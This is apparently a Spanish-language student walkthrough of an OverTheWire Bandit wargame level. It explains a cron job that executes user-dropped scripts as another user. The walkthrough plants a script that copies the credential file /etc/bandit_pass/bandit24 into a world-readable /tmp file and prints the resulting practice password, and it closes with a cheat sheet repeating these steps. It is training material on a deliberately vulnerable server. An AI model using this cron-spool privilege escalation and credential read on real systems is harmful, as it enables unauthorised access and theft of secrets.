

# Siempre poner al conectarse a una maquina por SSH : -export TERM=xterm

### Objetivo del nivel

Un programa se está ejecutando automáticamente a intervalos regulares desde **cron**, el planificador de tareas basado en tiempo.  
Mira en `/etc/cron.d/` la configuración y revisa qué comando se está ejecutando.

**NOTA:** Este nivel requiere que crees tu **primer script en shell**. ¡Es un paso muy grande y deberías estar orgulloso cuando superes este nivel!

**NOTA 2:** Ten en cuenta que tu script en shell se eliminará una vez ejecutado, por lo que puede que quieras guardar una copia.

---

### Comandos que podrías necesitar para resolver este nivel

- `cron`
    
- `crontab`
    
- `crontab(5)` (puedes usar `man 5 crontab` para acceder a esta página del manual)

## 🔎 Objetivo del nivel

En **/etc/cron.d/** hay una tarea que ejecuta, **cada minuto y como `bandit24`**, un script que busca y ejecuta **scripts propiedad de `bandit23`** dentro de **/var/spool/bandit24/** y luego **los borra**.  
Tu misión: **plantar un script** que, al ejecutarse como `bandit24`, **lea** `/etc/bandit_pass/bandit24` y **vuelque la contraseña** a un fichero que `bandit23` pueda leer (por ejemplo en `/tmp`).

---

## 🪜 Paso a paso (con consola real)

### 1) Ver el cronjob que nos interesa

# {Comando}

## `bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24`

# {Salida}

## {Desglose del comando}

- **cat**: muestra el contenido del fichero.
    
- El cronjob se ejecuta **cada minuto** (`* * * * *`) como **bandit24**.

- ### 1️⃣ Línea 1

- **`@reboot`** → indica que el comando se ejecuta automáticamente **cada vez que la máquina se reinicia**.
    
- **`bandit24`** → el usuario bajo el que se ejecutará la tarea (no `root`, sino específicamente `bandit24`).
    
- **`/usr/bin/cronjob_bandit24.sh`** → es el script que se lanza al arrancar.
    
- **`&> /dev/null`** → redirige **stdout (salida estándar)** y **stderr (errores)** a `/dev/null`, o sea, **silencia todo lo que imprime**.
    

💬 **Comentario del profe**:  
Es como decir “ejecuta este script al arrancar, pero no me cuentes nada de lo que pasó”.

---

### 2️⃣ Línea 2

- **`* * * * *`** → formato estándar de cron → significa **cada minuto de cada hora de cada día**.
    
- **`bandit24`** → igual que antes, el script se ejecuta con este usuario.
    
- **`/usr/bin/cronjob_bandit24.sh`** → mismo script que antes.
    
- **`&> /dev/null`** → también se ejecuta en silencio.
    

## 💬 **Comentario del profe**: 

Esto asegura que **cada minuto**, sin excepción, el script de bandit24 se ejecute automáticamente, además de lanzarse siempre que el servidor reinicia.

---

## ✅ Resumen final

Este cronjob garantiza que el script `/usr/bin/cronjob_bandit24.sh`:

1. **Se ejecuta automáticamente al reiniciar el sistema**.
    
2. **Se ejecuta cada minuto** mientras el sistema está encendido.
    
3. Todo lo que produzca como salida se descarta en `/dev/null` (ni logs ni errores).
    
  
## 💬{Comentario del profe}  

Sabemos qué script corre y con qué usuario. Toca leerlo.

---

### 2) Leer el script que ejecuta cron

# {Comando}

## `bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh`

# {Salida} 

## `La Captura`

## {Desglose del comando}

## 🪜 Explicación paso a paso

1. `#!/bin/bash`  
    Shebang: ejecuta el script con **/bin/bash**.
    
2. `myname=$(whoami)`  
    Guarda en la variable **myname** el usuario que está ejecutando el script.  
    En tu caso, como el cron lo lanza para **bandit24**, `myname` será `bandit24`.
    
3. `cd /var/spool/$myname`  
    Cambia al directorio **/var/spool/bandit24**.  
    (Ese dir es un “buzón” donde se dejan scripts para que bandit24 los procese.)
    
4. `echo "Executing and deleting all scripts in /var/spool/$myname:"`  
    Mensaje informativo: “Ejecutando y borrando todos los scripts en /var/spool/bandit24:”.
    
5. `for i in * .*;`  
    Inicia un bucle por **todos** los nombres del directorio **incluidos los ocultos** (`*` y `.*`).
    
6. `if [ "$i" != "." -a "$i" != ".." ];`  
    Filtro para **no** procesar las entradas especiales `.` y `..`.  
    (`-a` es **AND** lógico.)
    
7. `echo "Handling $i"`  
    Muestra qué elemento está tratando: “Handling nombre”.
    
8. `owner="$(stat --format "%U" ./$i)"`  
    Obtiene el **propietario** del fichero `i` usando `stat`.  
    `%U` devuelve el **nombre** del usuario (no el UID).
    
9. `if [ "${owner}" = "bandit23" ]; then`  
    **Solo** si el propietario es **bandit23** (tú), continúa.
    
10. `timeout -s 9 60 ./$i`  
    **Ejecuta el fichero `./$i`** con un **límite de 60 segundos**.
    
    - `timeout 60` = corre el comando y si no termina en 60s lo mata.
        
    - `-s 9` = la señal que enviará al expirar será **SIGKILL (9)**.  
        ⚠️ Solo ejecuta si es **propiedad de bandit23**.
        
11. `rm -f ./$i`  
    **Borra** el fichero (forzado, sin preguntar) **SIEMPRE**, lo haya ejecutado o no.
    
12. `fi; done`  
    Cierra los bloques y termina el bucle.
    

---

## 🧠 Resumen (traducción humana)

- “Ve a **/var/spool/bandit24**.
    
- Recorre todo lo que haya ahí (incluidos archivos ocultos), excepto `.` y `..`.
    
- Para cada ítem: si **lo posee bandit23**, **lo ejecuta** con un tiempo máximo de 60 s;
    
- **Después lo borra** igualmente.”
    

---

## 💡 ¿Qué implica para el reto Bandit?

Como tú eres **bandit23**, puedes **crear un script dentro de `/var/spool/bandit24`**; el cron de bandit24 lo **ejecutará como bandit24** (porque el cron corre siendo bandit24) y luego lo borrará.  
Típico uso: un script tuyo (`owner = bandit23`) que lea `/etc/bandit_pass/bandit24` y vuelque la password a un archivo en `/tmp` (o a tu home), antes de que lo borren.

Ejemplo de “drop” (solo idea):

`#!/bin/bash cat /etc/bandit_pass/bandit24 > /tmp/b24_$(date +%s).txt`

Guárdalo en `/var/spool/bandit24/miscript.sh`, dale permisos de ejecución (`chmod +x`) y espera al cron.  
Él lo ejecuta como **bandit24** → tú lees el resultado en `/tmp`.

---

## ⚠️ Detalles finos

- El borrado es **incondicional**: aunque el dueño NO sea bandit23, lo borra igual.
    
- `timeout -s 9 60` asegura que ningún script se quede colgado.
    
- El patrón `* .*` + filtro `.`/`..` garantiza que se procesen también archivos ocultos.

## 💬{Comentario del profe} 

La “puerta” está clara: **cualquier script que pongas ahí y sea tuyo (bandit23) lo ejecutará bandit24** y luego lo borrará.

---

### 3) Entender permisos del directorio objetivo

# {Comando}

## `bandit23@bandit:~$ ls -ld /var/spool/bandit24`

# {Salida típica}

## `drwxrwx-wx 60 root bandit24 ... /var/spool/bandit24`

## {Desglose}

- **otros (o)** tienen **wx** (escritura y entrar), pero **no r** (no se puede listar).
    

## 💬{Comentario del profe}  

No puedes **listar** el contenido, pero **sí puedes copiar** archivos ahí **si conoces la ruta**. Perfecto para “plantar” un script.

---
### 4. Crear un script malicioso en `/tmp`

Creamos un directorio temporal y un archivo `script.sh`:

##### `bandit23@bandit:/tmp$ mktemp -d /tmp/tmp.6MAVYlvV0s cd /tmp/tmp.6MAVYlvV0s nano script.sh`

Contenido del `script.sh`:

`#!/bin/bash 
`cat /etc/bandit_pass/bandit24 > /tmp/tmp.6MAVYlvV0s/bandit24_password.log
`chmod o+r /tmp/tmp.6MAVYlvV0s/bandit24_password.log`

## 💬 **Comentario**: 

Nuestro script copiará la contraseña de bandit24 a un archivo accesible para nosotros.

---

### 5. Dar permisos de ejecución

## `chmod +x script.sh`

---

### 6. Copiar nuestro script al directorio ejecutado por cron

`cp script.sh /var/spool/bandit24/testing chmod +x /var/spool/bandit24/testing`

## 💬 **Comentario**:

Ahora cron encontrará el script en la carpeta de `bandit24` y lo ejecutará en menos de un minuto.

---

### 7. Vigilar la ejecución con `watch`

`watch -n 1 ls -l`

Salida tras unos segundos:

## 💬 **Comentario**: 

Vemos que apareció `bandit24_password.log`, creado por cron.

---

### 8. Leer la contraseña

`cat bandit24_password.log`

Salida:

`UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ`

✅ Contraseña obtenida.

# Resumen

---

## ⚠️ Errores comunes y explicaciones

- `Permission denied` al intentar entrar directamente a `/var/spool/bandit24/` → es normal, no tenemos permisos de lectura, solo podemos colocar ficheros.
    
- El script desaparece después de ejecutarse → el cronjob borra los archivos tras ejecutarlos, por eso conviene hacer copias en `/tmp`.
    

---

## 📑 Chuleta final (comandos rápidos)

`mktemp -d cd /tmp/tmp.ABCD1234 nano script.sh   # añadir payload chmod +x script.sh cp script.sh /var/spool/bandit24/example chmod +x /var/spool/bandit24/example watch -n 1 ls -l   # esperar ejecución cat bandit24_password.log`

---

## 🧾 Chuleta final

|Comando|Propósito|Uso mínimo|
|---|---|---|
|`cat /etc/cron.d/cronjob_bandit24`|Ver qué ejecuta cron|`cat /etc/cron.d/cronjob_bandit24`|
|`cat /usr/bin/cronjob_bandit24.sh`|Entender la lógica|`cat /usr/bin/cronjob_bandit24.sh`|
|`mktemp -d`|Crear carpeta segura en `/tmp`|`dir=$(mktemp -d)`|
|`chmod o+wx DIR`|Permitir que `bandit24` escriba en tu `/tmp`|`chmod o+wx "$dir"`|
|`cp payload /var/spool/bandit24/NAME`|Plantar script|`cp "$dir/script.sh" /var/spool/bandit24/x`|
|`chmod +x /var/spool/bandit24/x`|Hacerlo ejecutable|`chmod +x /var/spool/bandit24/x`|
|`sleep 65`|Dar tiempo a cron|`sleep 65`|
|`cat "$dir/bandit24_password.log"`|Leer contraseña|`cat "$dir/bandit24_password.log"`|

---

---

## 🗒️ Notas adicionales

- El cronjob **borra** tu script tras ejecutarlo. Guarda una copia en `/tmp` por si necesitas repetir.
    
- El comando `timeout -s 9 60 ./script` mata con **SIGKILL** si el script se queda colgado. No intentes técnicas “interactivas”.
    
- No puedes **listar** `/var/spool/bandit24/`, pero sí **copiar** archivos a ese directorio: los permisos de la carpeta permiten **escritura/entrada**, no **lectura**.
    

---

## 📚 Referencias

- `man 5 crontab`, `man stat`, `man timeout`, `man chmod`.
    
- OverTheWire – Bandit cron levels.
